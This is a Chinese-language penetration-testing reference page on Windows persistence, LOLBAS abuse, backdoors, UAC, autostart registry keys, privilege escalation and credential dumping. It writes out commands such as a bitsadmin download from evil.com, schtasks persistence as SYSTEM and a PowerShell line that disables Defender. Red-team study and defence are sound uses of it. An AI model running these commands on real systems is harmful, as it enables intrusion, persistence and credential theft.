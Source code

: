 持久化
========================================

隐藏文件
----------------------------------------
- 创建系统隐藏文件
    - ``attrib +s +a +r +h filename`` / ``attrib +s +h filename``
- 利用NTFS ADS (Alternate　Data　Streams) 创建隐藏文件
- 利用Windows保留字
    - ``aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9``

LOLBAS
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- appsyncvpublishing.exe
    - 执行powershell
- bitsadmin.exe
    - 下载文件 ``bitsadmin /transfer <job_name> /priority <priority> <remote_path> <local_path>``
    - 下载文件 ``bitsadmin /create 1 bitsadmin /addfile 1 https://evil.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1``
    - 复制文件 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset``
    - 代码执行 ``bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset``
- cdb.exe
- certutil.exe
    - 可安装、备份、删除、管理和执行证书
    - 证书存储相关功能
- cmd.exe
- cmstp.exe
- control.exe
    - `加载dll <https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/>`_
- csc.exe
    - 编译 C# 载荷
- cscript.exe
    - 执行脚本
- extexport.exe
- expand.exe
    - 展开一个或多个压缩文件
- forfiles.exe
    - ``forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe``
- mofcomp.exe
- makecab.exe
- msbuild.exe
    - 构建应用程序
- mshta.exe
    - HTML应用
- msiexec.exe
    - 安装msi
    - 加载dll
- msxsl.exe
    - 处理XSL程序
- netsh.exe
- installutil.exe
    - 安装/卸载程序组件
- IEExec.exe
    - .NET Framework附带程序
- powershell.exe
- psexec.exe
- reg.exe
    - 注册表控制台
- regedit.exe
    - 注册表修改
- regsvr32.exe
    - 注册动态链接库/ActiveX控件
- rundll32.exe
    - 执行DLL文件中的内部函数
- sc.exe
    - 查看服务状态管理
- schtasks.exe
    - 定时计划任务
- shred
    - 重复写入文件，防止文件恢复
- type.exe
    - 利用ads隐藏文件 ``type <filepath> <target_file:ads>``
- wmic.exe
    - Windows管理工具
- windbg.exe
- winrm.exe
- wscript.exe
    - 脚本引擎
- waitfor.exe
    - 用于同步网络中计算机，可以发送或等待系统上的信号。

后门
----------------------------------------

sethc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``sethc.exe`` 是 Windows系统在用户按下五次shift后调用的粘滞键处理程序，当有写文件但是没有执行权限时，可以通过替换 ``sethc.exe`` 的方式留下后门，在密码输入页面输入五次shift即可获得权限。

映像劫持
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在高版本的Windows中，替换程序是受到系统保护的，需要使用其他的技巧来实现替换。

具体操作为在注册表的 ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option`` 下添加项 ``sethc.exe`` ，然后在 ``sethc.exe`` 这个项中添加 ``debugger`` 键，键值为恶意程序的路径。

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows下有 ``schtasks`` 和 ``at`` 两种计划任务机制。 其中 ``at`` 在较高版本的Windows中已经弃用。

设置命令为 ``schtasks /create /tn "TEST_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"`` 、 ``schtasks /create /tn "TEST_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"`` 。删除命令为 ``schtasks /delete /tn "TEST_OnLogon" /f`` 。

登录脚本
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以在用户登录前执行脚本，使用 ``HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 设置。

也可在 ``HKCU\Environment\`` 路径下设置 ``UserInitMprLogonScript`` 来实现。

屏幕保护程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以自定义屏幕保护程序，使用 ``HKEY_CURRENT_USER\Control Panel\Desktop`` 设置。

隐藏用户
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以使用在用户名后加入 ``$`` 来创建隐藏用户，这种帐户可在一定条件下隐藏，但是仍可以通过控制面板查看。

在创建隐藏用户的基础上，可以修改注册表的方式创建影子用户，这种方式创建的用户只能通过注册表查看。

CLR
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CLR (Common Language Runtime Compilation) 公共语言运行时，是微软为.NET产品构建的运行环境，可以粗略地理解为.NET虚拟机。

.NET程序的运行离不开CLR，因此可以通过劫持CLR的方式实现后门。

Winlogon Helper DLL后门
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Winlogon是一个Windows组件，用来处理各种活动，如登录、注销、身份验证期间加载用户配置文件、关闭、锁定屏幕等。这种行为由注册表管理，该注册表定义在Windows登录期间启动哪些进程。所以可以依靠这个注册表来进行权限维持。

注册表位置如下：

- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`` 用于执行exe程序
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 用于执行exe程序
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify`` 用于执行dll文件

UAC
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
UAC (User Account Control) 是Windows Vista 和 Windows Server 2008 引入的一个安全机制，当一些敏感操作发生时，会跳出提示显式要求系统权限。

当用户登陆Windows时，每个用户都会被授予一个access token，这个token中有security identifier (SID) 的信息，决定了用户的权限。

会触发UAC的操作
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 以管理员权限启动应用
- 修改系统、UAC设置
- 修改没有权限的文件或者目录（ %SystemRoot% / %ProgramFiles% 等 ） 
- 修改ACL (access control list)
- 安装驱动
- 增删账户，修改账户类型，激活来宾账户

ByPass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- DLL相关
- 进程注入
- 注册表

自启动
----------------------------------------

基于注册表的自启动
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过在注册表中写入相应的键值可以实现程序的开机自启动，主要是 ``Run`` 和 ``RunOnce`` ，其中RunOnce和Run区别在于RunOnce的键值只作用一次，执行完毕后会自动删除。

注册表如下：

- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx``

基于策略的自启动注册表设置如下：

- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run``

设置启动文件夹注册表位置如下：

- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders``
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders``
- ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders``

设置服务启动项注册表位置如下：

- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce``
- ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices``
- ``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices``

用户自启动位置 ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 、 ``HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`` ，其中 ``Userinit`` 键允许指定用逗号分隔的多个程序。

如果用户启动了屏幕保护程序，也可以通过屏幕保护程序来启动后面，相关注册表键值为：

- ``HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive``
- ``HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure``
- ``HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut``
- ``HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE``

基于特定目录的自启动
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
自启动目录， ``C:\Users\Username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`` 目录对特定用户生效， ``C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`` 对所有用户生效。在NT6以前，两个目录为 ``C:\Documents and Settings\Username\Start Menu\Programs\StartUp`` / ``C:\Documents and Settings\All Users\Start Menu\Programs\StartUp`` 。
 
权限提升
----------------------------------------
权限提升有多重方式，有利用二进制漏洞、逻辑漏洞等技巧。利用二进制漏洞获取权限的方式是利用运行在内核态中的漏洞来执行代码。比如内核、驱动中的UAF或者其他类似的漏洞，以获得较高的权限。

逻辑漏洞主要是利用系统的一些逻辑存在问题的机制，比如有些文件夹用户可以写入，但是会以管理员权限启动。

任意写文件利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在Windows中用户可以写的敏感位置主要有以下这些

+ 用户自身的文件和目录，包括 ``AppData`` ``Temp``
+ ``C:\`` ，默认情况下用户可以写入
+ ``C:\ProgramData`` 的子目录，默认情况下用户可以创建文件夹、写入文件
+ ``C:\Windows\Temp`` 的子目录，默认情况下用户可以创建文件夹、写入文件

具体的ACL信息可用AccessChk, 或者PowerShell的 ``Get-Acl`` 命令查看。

可以利用对这些文件夹及其子目录的写权限，写入一些可能会被加载的dll，利用dll的加载执行来获取权限。

MOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
MOF是Windows系统的一个文件（ ``c:/windows/system32/wbem/mof/nullevt.mof`` ）叫做"托管对象格式"，其作用是每隔五秒就会去监控进程创建和死亡。

当拥有文件上传的权限但是没有Shell时，可以上传定制的mof文件至相应的位置，一定时间后这个mof就会被执行。

一般会采用在mof中加入一段添加管理员用户的命令的vbs脚本，当执行后就拥有了新的管理员账户。

凭证窃取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Windows本地密码散列导出工具
    - mimikatz
    - lsass
    - wce
    - gsecdump
    - copypwd
    - Pwdump
    - ProcDump
        - https://docs.microsoft.com/en-us/sysinternals/downloads/procdump
- Windows本地密码破解工具
    - L0phtCrack
    - SAMInside
    - Ophcrack
- 彩虹表破解
- 本机hash+明文抓取
- win8+win2012明文抓取
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash
- 使用 ``net use \\%computername% /u:%username%`` 重置密码尝试次数
- 限制读取时，可crash操作系统后，在蓝屏的dump文件中读取

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 组策略首选项漏洞
- DLL劫持
- 替换系统工具，实现后门
- 关闭defender
    - ``Set-MpPreference -disablerealtimeMonitoring $true``
